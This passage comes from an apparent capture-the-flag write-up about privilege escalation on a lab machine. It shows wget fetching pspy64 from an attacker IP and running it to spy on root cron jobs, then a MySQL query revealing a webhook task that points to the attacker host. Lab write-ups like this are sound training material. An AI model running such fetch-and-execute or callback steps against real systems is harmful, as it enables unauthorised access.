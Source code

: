 Every minute we see the same set of tasks:
```bash
susanne@health:/dev/shm$ wget http://10.10.14.20/pspy64
susanne@health:/dev/shm$ chmod +x pspy64
susanne@health:/dev/shm$ ./pspy64
[... snip ...]
2022/08/24 08:50:01 CMD: UID=0    PID=24085  | /bin/bash -c cd /var/www/html && php artisan schedule:run >> /dev/null 2>&1
2022/08/24 08:50:01 CMD: UID=0    PID=24085  | /usr/sbin/CRON -f 
2022/08/24 08:50:01 CMD: UID=0    PID=24084  | /bin/bash -c sleep 5 && /root/meta/clean.sh 
2022/08/24 08:50:01 CMD: UID=0    PID=24087  | php artisan schedule:run 
2022/08/24 08:50:01 CMD: UID=0    PID=24086  | sleep 5 
2022/08/24 08:50:01 CMD: UID=0    PID=24090  | grep columns 
2022/08/24 08:50:01 CMD: UID=0    PID=24091  | sh -c stty -a | grep columns 
2022/08/24 08:50:06 CMD: UID=0    PID=24094  | mysql laravel --execute TRUNCATE tasks
```

Reading about `TRUNCATE` I find this:
> [`TRUNCATE TABLE`](https://dev.mysql.com/doc/refman/5.6/en/truncate-table.html "13.1.33 TRUNCATE TABLE Statement") empties a table completely. It requires the [`DROP`](https://dev.mysql.com/doc/refman/5.6/en/privileges-provided.html#priv_drop) privilege.
> Logically, [`TRUNCATE TABLE`](https://dev.mysql.com/doc/refman/5.6/en/truncate-table.html "13.1.33 TRUNCATE TABLE Statement") is similar to a [`DELETE`](https://dev.mysql.com/doc/refman/5.6/en/delete.html "13.2.2 DELETE Statement") statement that deletes all rows, or a sequence of [`DROP TABLE`](https://dev.mysql.com/doc/refman/5.6/en/drop-table.html "13.1.28 DROP TABLE Statement") and [`CREATE TABLE`](https://dev.mysql.com/doc/refman/5.6/en/create-table.html "13.1.17 CREATE TABLE Statement") statements.

So why are they truncating table `tasks` every minute, and what can we do with that information? 

If would make sense that the webhook we create will be put in the `tasks` table. Create a new webhook/task from the webpage and verify.

```sql
mysql> use laravel
Database changed
mysql> show tables;
+------------------------+
| Tables_in_laravel      |
+------------------------+
| failed_jobs            |
| migrations             |
| password_resets        |
| personal_access_tokens |
| tasks                  |
| users                  |
+------------------------+
mysql> select * from tasks;
+--------------------------------------+--------------------------+-----------+---------------------+-------------+---------------------+---------------------+
| id                                   | webhookUrl               | onlyError | monitoredUrl        | frequency   | created_at          | updated_at          |
+--------------------------------------+--------------------------+-----------+---------------------+-------------+---------------------+---------------------+
| 341fc709-d2c8-48e4-9c41-636656bdfad8 | http://10.10.14.20:8888/ |         0 | http://10.10.14.20/ | */1 * * * * | 2022-08-24 09:46:23 | 2022-08-24 09:46:23 |
+--------------------------------------+--------------------------+-----------+---------------------+-------------+---------------------+---------------------+
```
